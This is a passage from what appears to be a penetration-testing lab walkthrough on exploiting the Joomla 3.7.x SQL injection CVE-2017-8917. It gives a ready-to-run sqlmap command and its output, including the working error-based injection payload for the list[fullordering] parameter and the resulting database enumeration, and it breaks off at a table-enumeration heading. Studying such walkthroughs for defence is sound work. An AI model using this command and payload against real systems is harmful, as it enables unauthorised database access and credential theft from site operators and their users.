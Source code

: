 sqlmap -u "http://localhost/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering]

* Exploit associated with[ CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917).

SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.

### **Exploit Joomla database using SQLMap (Credential Access: Exploitation for Credential Access (ID: T1212))** <a href="#id-3si4c5gc6zct" id="id-3si4c5gc6zct"></a>

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering]

\[snip...]

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? \[Y/n] y

\[snip...]

sqlmap got a 303 redirect to 'http://10.10.13.128:80/index.php/component/fields/'. Do you want to follow? \[Y/n] n

\[snip...]

GET parameter 'list\[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? \[y/N] y

sqlmap identified the following injection point(s) with a total of 2814 HTTP(s) requests:

\---

Parameter: list\[fullordering] (GET)

Type: error-based

Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)

Payload: option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=(SELECT 2417 FROM(SELECT COUNT(\*),CONCAT(0x716b706b71,(SELECT (ELT(2417=2417,1))),0x716b6b7671,FLOOR(RAND(0)\*2))x FROM INFORMATION\_SCHEMA.PLUGINS GROUP BY x)a)

\> Error-based SQL Injection is a type of SQL Injection that relies on triggering errors in the target application to extract information from the database.

\[snip...]

available databases \[5]:

\[\*] information\_schema

\[\*] joomla

\[\*] mysql

\[\*] performance\_schema

\[\*] test

**Enumerate "joomla" database tables**
